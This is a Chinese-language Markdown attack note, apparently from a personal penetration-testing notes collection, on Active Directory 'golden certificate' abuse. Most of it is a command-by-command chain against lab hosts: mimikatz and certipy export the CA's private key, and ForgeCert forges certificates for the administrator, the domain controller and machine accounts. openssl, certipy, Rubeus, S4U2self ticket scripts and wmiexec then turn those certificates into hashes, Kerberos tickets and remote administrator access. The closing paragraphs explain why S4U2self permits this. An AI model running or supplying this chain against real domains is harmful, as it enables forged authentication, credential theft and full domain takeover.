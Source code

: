 # 证书维权

### 黄金证书

证书链中，除了处于证书链中的 **根信任证书** 外，其他证书的签名需要使用它上一级证书的私钥，而 **根信任证书** 使用自己的私钥给自己签名。**CA 证书**使用其私钥签发其他证书，因为 CA 证书被根信任证书的私钥签了名，因此 CA 证书继承了根信任证书的信任。如果 CA 证书私钥泄露，我们就能使用 CA 证书签发其他证书。

在域环境下，域用户申请 User 模板的证书用于客户端身份验证，这类证书由 CA证书 签发，一般 CA 证书存放在所有域用户机器下的 **受信任证书列表** 中。那么如果我们获得 CA 证书的私钥，那么可以使用它伪造域用户证书链 ，这样我们获得域内所有用户凭据。 此外，我们称之为这些 CA 证书为 **黄金证书**  。

##### 如何判断CA证书？

- 只有CA证书有 **“CA版本”** 这一扩展。
- CA 证书没有 EKU。
- 证书的颁发者 Issuer 和主题名称 Subject (使用者)都设置为 CA 的专有名称。

注意：CA 证书的私钥受到 CA 服务器 DPAPI 保护。

### 证书导出

##### mimikatz

```
# 在 CA 机器上使用 mimikatz 执行如下命令导出机器证书，导出的.pfx 文件即包含 CA 的证书和私钥，该 pfx 文件的导出密码为mimikatz。

mimikatz.exe "privilege::debug" "crypto::capi" "crypto::certificates /systemstore:local_machine /store:my /export" exit
```

![image-20250215085757396](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250215085757396.png)

##### certipy

```
# 请求某一客户的证书
certipy ca -u administrator@HACK.com -p p-0p-0p-0 -target 192.168.72.21
```

### 证书伪造

利用获得的黄金证书，颁发域用户证书。

##### ForgeCert

```
伪造 administrator 用户证书，证书的密码为空。

# 为用户生成证书
ForgeCert.exe --CaCertPath "local_machine_my_0_HACK-DC01-CA.pfx" --CaCertPassword "mimikatz" --Subject "CN=User" --SubjectAltName "administrator@HACK.com" --NewCertPath administrator.pfx --NewCertPassword ""

#为机器生成黄金票据
ForgeCert.exe --CaCertPath "local_machine_my_0_HACK-DC01-CA.pfx" --CaCertPassword "mimikatz" --Subject "CN=Computer" --SubjectAltName "DC01$@HACK.com" --NewCertPath DC01.pfx --NewCertPassword ""

#如果 CA 服务器不是域控的话，需要指定 CRL 列表
--CRL "ldap:///CN=xie-CA-CA,CN=CA,CN=CDP,CN=Public Key Services,CN=Services,CN=Configuration,DC=xie,DC=com?certificateRevocationList?base?objectClass =cRLDistributionPoint"
```

![image-20250215090357568](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250215090357568.png)

### 证书攻击

上一步骤已经伪造好了用户证书，可以通过此用户证书进行 PKINIT kerberos 身份验证获取域用户hash。

##### certipy

```
# 将 pfx 文件转换为 pem 文件
openssl pkcs12 -in administrator.pfx -nodes -out administrator.pem

# 将 pem 文件转换为无密码的 pfx 文件
openssl pkcs12 -in administrator.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out administrator.pfx

#认证获得 hash
certipy auth -pfx administrator.pfx -dc-ip 10.211.55.4 -debug
```

![image-20250215091947571](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250215091947571.png)

##### Rebeus

```
Rubeus.exe asktgt /user:administrator /certificate:admin.pfx /password: /ptt
															  ^^^^^^^
															证书导入时的密码
```

### 机器证书利用

域内环境下，机器账号的hash不能直接利用。

##### mimikatz

导出证书及其私钥

```
mimikatz.exe "crypto::capi" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"
```

##### certipy（攻击域控）

```
ForgeCert.exe --CaCertPath "local_machine_my_0_HACK-DC01-CA.pfx" --CaCertPassword "mimikatz" --Subject "CN=Computer" --SubjectAltName "DC01$@HACK.com" --NewCertPath DC01.pfx --NewCertPassword ""

# 将 pfx 文件转换为 pem 文件
openssl pkcs12 -in DC01.pfx -nodes -out DC01.pem

# 将 pem 文件转换为无密码的 pfx 文件
openssl pkcs12 -in DC01.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out DC01.pfx

certipy auth -pfx DC01.pfx -dc-ip 192.168.72.21 -debug
```

![image-20250215092733756](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250215092733756.png)

##### 普通机器账号

```
# 颁发 comp1$ 的机器账户证书
ForgeCert.exe --CaCertPath "local_machine_my_0_HACK-DC01-CA.pfx" --CaCertPassword "mimikatz" --Subject "CN=Computer" --SubjectAltName "comp1$@HACK.com" --NewCertPath comp1.pfx --NewCertPassword ""

# 将 pfx 文件转换为 pem 文件
openssl pkcs12 -in /tmp/comp1.pfx -nodes -out /tmp/comp1.pem

# 将 pem 文件转换为无密码的 pfx 文件
openssl pkcs12 -in /tmp/comp1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out /tmp/comp1.pfx

# 利用机器账户证书生成 .ccache 格式的 tgt。
python3 gettgtpkinit.py -cert-pfx /tmp/comp1.pfx -pfx-pass mimikatz -dc-ip 192.168.72.21 -v HACK.com/comp1\$ comp1.ccache

# 利用 comp1$ 机器账户 tgt 为域管理员申请访问 comp1.HACK.com CIFS 协议的票据
python3 gets4uticket.py kerberos+ccache://HACK.com\\comp1\$:comp1.ccache@DC01.HACK.com cifs/comp1.HACK.com@HACK.com administrator@HACK.com administrator.ccache -v

# 导入票据
export KRB5CCNAME=administrator.ccache

# 以 administrator 访问 comp1.HACK.com
python3 wmiexec.py -k -no-pass HACK.com/administrator@comp1.HACK.com
```

![image-20250215095857259](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E8%AF%81%E4%B9%A6%E7%9B%B8%E5%85%B3%E6%BC%8F%E6%B4%9E/images/image-20250215095857259.png)

此过程没有利用到委派攻击，而是利用到了 S4U2self 的宽松性。整个过程仅依赖 S4U2self。

S4U2self 的宽松性：S4U2self 的设计初衷是允许服务在需要知道用户身份时（如审计日志），无需用户主动认证即可获取票据。因此默认情况下，任何服务账户均可使用 S4U2self 为自己服务请求用户票据，无需额外权限。

总结：该攻击成功的原因是 **Kerberos 协议中服务账户天然拥有为自身服务生成任意用户票据的能力**，而无需委派。这是协议设计特性，而非配置疏漏。

